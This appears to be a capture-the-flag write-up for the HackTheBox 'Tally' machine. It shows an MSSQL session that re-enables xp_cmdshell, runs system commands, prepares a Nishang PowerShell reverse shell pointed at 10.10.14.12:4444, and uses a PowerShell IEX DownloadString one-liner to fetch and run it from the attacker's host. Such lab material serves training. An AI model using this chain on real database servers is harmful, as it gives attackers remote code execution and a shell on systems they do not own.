


# MSSQL




# Code execution disabled


```sql
1> xp_cmdshell 'whoami'
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by
using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
1> 
```

# Enable advanced options

```sql
1> sp_configure 'show advanced options', 1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> 

```

# Enable xp_cmdshell

```sql
6> sp_configure 'xp_cmdshell', 1
7> reconfigure
8> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
```


# Code execution

```sql
1> xp_cmdshell 'whoami'
2> go

        output                                                                                                                                                                                                                               
                                                                                                                                                                                                                                             
                                              

        -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
----------------------------------------------

        tally\sarah                                                                                                                                                                                                                          
                                                                                                                                                                                                                                             
                                              

        NULL                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                             
                                              

(2 rows affected, return status = 0)

```


# Reverse Shell Preparation

```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/tally/www]
└─$ locate Invoke-PowerShellTcp.ps1
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/tally/www]
└─$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/tally/www]
└─$ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 4444" >> reverse.ps1
```

# Download the reverse shell and run
```sql
1> xp_cmdshell "powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse.ps1')"
2> go
```


